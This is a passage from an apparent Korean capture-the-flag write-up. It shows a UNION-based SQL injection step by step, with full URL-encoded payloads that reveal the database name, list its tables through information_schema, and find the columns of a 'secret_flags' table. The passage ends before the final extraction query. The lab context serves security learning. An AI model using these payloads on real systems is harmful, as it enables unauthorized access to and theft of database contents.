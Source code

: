 ![union select](./screenshots/spec1_database.png)

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,database()--+
```

- 출력 결과를 통해 현재 사용 중인 데이터베이스는 **spec1**임을 확인할 수 있었다.

- 후에 이제 `information_schema.tables`를 이용해 데이터베이스 spec1 내의 테이블 목록을 확인해보았다.

- 다음과 같은 쿼리를 통해 세 번째 테이블(**LIMIT 2,1**)을 조회한 결과, 테이블 이름으로 **secret_flags**가 출력되었다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+table_name+from+information_schema.tables+where+table_schema='spec1'+limit+2,1)--+
```

- 이후, `secret_flags` 테이블 내부에 어떤 컬럼들이 존재하는지 확인하기 위해 `information_schema.columns`를 조회하였다.

```html
Lucky%20Slots'%20union%20select%201,2,3,4,5,6,7,8,9,10,11,(select+column_name+from+information_schema.columns+where+table_schema='spec1'+and+table_name='secret_flags'+limit+?,1)--+
```

- 쿼리 실행 결과, 각각 **id, flag_name, flag_value**라는 컬럼명을 확인할 수 있었다.

- 마지막으로, 이전 단계에서 확인한 `flag_value` 컬럼으로부터 실제 데이터를 추출하기 위해 다음과 같은 쿼리를 사용하였다.
